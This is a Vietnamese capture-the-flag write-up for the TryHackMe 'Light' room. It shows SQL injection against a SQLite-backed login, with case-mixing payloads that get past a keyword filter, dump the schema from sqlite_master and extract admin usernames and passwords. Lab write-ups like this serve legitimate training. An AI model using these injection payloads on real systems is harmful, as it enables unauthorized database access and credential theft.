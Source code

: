 ```yaml
---
title: 'THM - Light'
category: 'ctf'
date: '01-02-2025'
---
```


# Intro

![alt text](image.png)

# Enumeration
- Đầu tiền thử các trường hợp các dấu:
    - Với dấu `'`
    ![alt text](image-1.png)
    - Với dấu `--`
    ![alt text](image-2.png)
- Rõ rằng với các exception kia ta loại được 1 mớ các dấu: `/* -- %0b`
- Thử với các từ khóa:
    - `select`
    ![alt text](image-3.png)
    - Tương tự ta có cùng kết quá với `union where from`
    - Nếu đổi sang `SelEct` kết quả là
    ![alt text](image-4.png)
- Vậy là cái filter này lọc không lỗi và có thể dùng bất cứ từ khóa nào.

# Exploitation
- Quay trở lại với việc thử dấu `'`, ta rõ ràng nhận ra cuối query có `LIMIT 30`
![alt text](image-1.png)
- Với cái đuôi LIMIT 30 này thì ta sử dụng loại chèn đuôi vì kết quả in ra không quá ảnh hưởng.
- Ta cũng có thể dự đoán được query sẽ gần gần như sau:
```sql
select password from [gì đó] where username = '[input]' limit 30
```
- Thử xem dùng `union` hay `;` thì ta có:
```sql
123'; SelEct '1
```
*(ở đây là nó treo luôn)*
![alt text](image-5.png)

```sql 
123' UniOn SelEct '1
```

- Vậy là ta sẽ sử dụng `union`
![alt text](image-6.png)

- Ta tiến hành kiểm tra dbms là loại gì và phiên bản gì, kết quả trả ra là SQLite với `123' unIon SElect sqlite_version() '`
![alt text](image-7.png)

- Ta lấy cấu trúc của DB bằng cú pháp
```sql 
123' uniOn SeLECT group_concat(sql) FRoM sqlite_master '
```
![alt text](image-8.png)

- Lấy `username` từ `admintable` rồi có flag là chuyện cỏn con rồi nhé
```sql
123' UniOn sElect group_concat(username) fRom admintable '

123' UniOn sElect password fRom admintable wheRe username = '[gì đó tự biết]
``` 

